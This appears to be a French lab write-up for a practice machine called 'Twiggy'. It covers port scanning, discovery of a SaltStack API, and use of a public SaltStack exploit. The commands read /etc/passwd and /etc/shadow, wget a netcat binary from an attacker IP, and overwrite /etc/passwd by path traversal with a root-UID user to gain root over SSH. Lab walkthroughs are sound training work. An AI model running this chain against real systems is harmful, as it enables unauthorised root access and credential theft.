   # Twiggy

	sudo masscan -p1-65535,U:1-65535 192.168.164.62 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.164.62 -oN nmap.txt
	feroxbuster --silent -u http://192.168.164.62
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    22/tcp open ssh OpenSSH 7.4 (protocol 2.0)  
    53/tcp open domain NLnet Labs NSD  
    80/tcp open http nginx 1.16.1  
    4505/tcp open zmtp ZeroMQ ZMTP 2.0  
    4506/tcp open zmtp ZeroMQ ZMTP 2.0  
    8000/tcp open http nginx 1.16.1

Il y a une API sur le port 8000 : 

    {"clients": ["local", "local_async", "local_batch", "local_subset", "runner", "runner_async", "ssh", "wheel", "wheel_async"], "return": "Welcome"}

En recopiant le contenu de cette page sur Google on tombe sur plein de résultats liés à SaltStack, qui est apparemment un outil de gestion de configuration écrit en Python. 

J'ai trouvé un exploit : https://www.exploit-db.com/exploits/48421

Impossible de faire télécharger quoi que ce soit à la machine mais je peux lire et écrire dans les fichiers :

	python  exploit_Saltstack.py --master 192.168.164.62 --exec "wget http://192.168.45.214/nc_linux"
	...
	python  exploit_Saltstack.py --master 192.168.164.62 --read /etc/passwd
	python  exploit_Saltstack.py --master 192.168.164.62 --read /etc/shadow
	python  exploit_Saltstack.py --master 192.168.164.62 --upload-src test.txt --upload-dest ./test.txt
	
J'ai donc directement pensé à la technique du remplacement de /etc/passwd et cela a fonctionné : 

	python exploit_Saltstack.py --master 192.168.164.62 --read /etc/passwd > passwd
	
	vim passwd
	echo 'tim:$1$cNCh34ba$5KLgSZbxX0baUnEB66yoZ1:0:0:/root/:/bin/bash' >> passwd
	
	python exploit_Saltstack.py --master 192.168.164.62 --upload-src ./passwd --upload-dest ../../../../etc/passwd
	...
	ssh -l tim 192.168.164.62
	cat /root/proof.txt
	
